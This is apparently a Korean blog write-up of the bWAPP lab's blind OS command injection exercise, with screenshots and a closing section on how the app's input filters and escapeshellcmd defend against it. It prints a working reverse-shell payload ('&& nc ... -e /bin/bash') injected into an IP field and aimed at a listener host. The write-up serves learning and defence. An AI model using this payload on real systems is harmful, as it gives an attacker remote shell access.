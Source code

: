 ```yaml
---
title: "[bWAPP] 1. Injection - OS Command Injection(Blind)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## Command Injection

OS명령어를 입력하여 내부정보 유출 및 악의적인 행위를 수행

포트를 열고 포트서버에 연결하여 원격조정을 해보자

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

자세한 건 SQL Injection에서 다뤄볼 예정

![image-20220316021508405](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316021508405.png)

<br>

### IP 입력

![image-20220316021540409](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316021540409.png)

- OS Command Injection과 동일하게 진행해보자

<br>

### 리눅스

![image-20220316020337128](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020337128.png)

- 포트 열어주고

<br>

### Bbox

![image-20220316022107295](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316022107295.png)

`172.30.1.25 && nc -vn 172.30.1.31 8888 -e /bin/bash`

- 코드 삽입

<br>

### 결과

![image-20220316020639739](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020639739.png)

<br>

<br>

## 대응방안

### Linux

![image-20220317225533437](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317225533437.png)

- vi 편집기를 통해 commandi.php 소스코드를 열어주면
- 레벨 1 = Medium 일 때 commandi_check_1 함수를 쓰고
- 레벨 2 = High 일 때 commindi_check_2 함수를 쓰는 것을 확인할 수 있다.

<br>

### functions_external.php

![image-20220317225732419](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317225732419.png)

- commandi_check_1 에서는 "&", ";" 문자들을 공백으로 대체해주고
- commnadi_check_2 에서는 escapeshellcmd 함수를 사용하여 보안을 적용하고 있다.
- escapeshellcmd : 
  - 인자로 받은 명령어가 실행되었을 때, 의도치 않았던 쉘 명령어가 실행되는 것을 방지하는 함수.
  - 메타캐릭터에 역슬래쉬를 붙여 명령어를 실행하지 못하게 한다.